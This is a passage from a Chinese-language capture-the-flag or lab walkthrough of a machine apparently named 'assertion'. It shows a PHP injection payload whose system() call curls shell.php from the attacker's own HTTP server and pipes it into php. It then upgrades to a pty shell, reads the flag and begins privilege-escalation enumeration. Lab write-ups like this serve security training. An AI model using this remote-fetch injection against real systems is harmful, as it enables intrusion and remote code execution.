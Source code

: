 
###### python3开启http服务

> 
`1.# 利用python开启http服务`
`2.sudo python3 -m http.server 80`


> 
`1.# 目标机器执行远程访问`
`2.http://192.168.151.94/index.php?page=' and die(system("curl http://192.168.45.218:80/shell.php | php")) or '`


命令执行成功

### 内网遨游-getshell

---


#### 交互shell

由于获取的shell交互不友好，利用python获得新的交互shell

> 
`1.# 利用python获取交互shell -&gt; python失败使用python3`
`2.python -c "import pty;pty.spawn('/bin/bash')";`


#### FLAG1获取

> 
`1.www-data@assertion:/$ find / -name local.txt 2&gt;/dev/null`
`2./var/www/local.txt`
`3.www-data@assertion:/$ cat /var/www/local.txt`
`4.525385afed5f2d70bfb89f7cb77b1da3`


#### 信息收集-内网基础信息收集

提权的本质在于`枚举`，在获取shell之后我们要进行内网信息的收集，都是为了`提权`做准备

##### 检测Linux操作系统的发行版本

较老的`Ubuntu`以及Linux系统可以`overlayfs`提权

> 
`1.# 确定发行版本`
`2.www-data@assertion:/$ lsb_release -a`
`3.No LSB modules are available.`
`4.Distributor ID: Ubuntu`
`5.Description: Ubuntu 18.04.3 LTS`
`6.Release: 18.04`
`7.Codename: bionic`


发行版本为`Ubuntu 18.04`，不太能`overlayfs`提权
